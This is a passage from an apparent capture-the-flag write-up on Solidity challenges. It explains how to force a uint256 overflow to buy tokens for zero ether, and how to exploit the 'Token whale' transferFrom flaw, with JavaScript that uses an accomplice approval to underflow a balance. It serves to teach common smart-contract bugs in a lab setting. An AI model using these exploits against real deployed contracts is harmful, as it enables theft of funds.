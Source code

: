 Knowing that `1 ether` is just the short form of `10^18`, we can force an overflow and buy tokens at a price of `0` by choosing `numTokens` to be the max possible uint256 + 1, divided by 10^18, i.e., `2^256 / 10^18`.
The smart contract will then check if `msg.value` equals `(2^256 / 10^18) * 10^18 % 2^256 = 2^256 % 2^256 = 0` because of the overflow.

## Token whale

This challenge contract is written in a confusing way.
There is a `transferFrom` function which uses three values: `from`, `to` and `msg.sender`, but such a function really only needs to be concerned about two of these values.

```solidity
function _transfer(address to, uint256 value) internal {
    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;

    emit Transfer(msg.sender, to, value);
}

function transferFrom(address from, address to, uint256 value) public {
    require(balanceOf[from] >= value);
    require(balanceOf[to] + value >= balanceOf[to]);
    require(allowance[from][msg.sender] >= value);

    allowance[from][msg.sender] -= value;
    _transfer(to, value);
}
```

We can create an accomplice to our attacker address and fully `approve(accomplice, 2^256-1)` our accomplice from the `attacker`.
Then we can call the `transferFrom(attacker, attacker, 1)` function from our `accomplice` (signed such that `msg.sender == accomplice`) with both the `from` and `to` being our attacker.
This passes the `allowance[attacker][accomplice] >= value` check and underflows the accomplice's balance `balanceOf[msg.sender] -= value <=> balanceOf[accomplice] = 0 - 1 = 2^256 - 1` in the `_transfer` helper function.

This just shows that many issues can arise when using global variables like `msg.sender` in private helper functions like `_transfer` because the control flow can't be trusted anymore.

```javascript
const eoaAddress = await eoa.getAddress();
const accompliceAddress = await accomplice.getAddress();

console.log(`Approving accomplice ...`);
tx = await contract.approve(accompliceAddress, BigNumber.from(`2`).pow(`255`));
await tx.wait()

console.log(`Transfering to self signed by accomplice ...`);
// it uses three vars: from, to, msg.sender in a wrong way
// which makes the overflow exploit possible
tx = await contractAccomplice.transferFrom(eoaAddress, eoaAddress, `1`);
await tx.wait();
// accomplice has huge amount of tokens now
console.log(`Checking accomplice balance ...`);
expect(await contract.balanceOf(accompliceAddress)).to.be.gte(
  BigNumber.from(`1000000`)
);

console.log(`Transfering funds to eoa ...`);
tx = await contractAccomplice.transfer(eoaAddress, `1000000`);
await tx.wait();
```
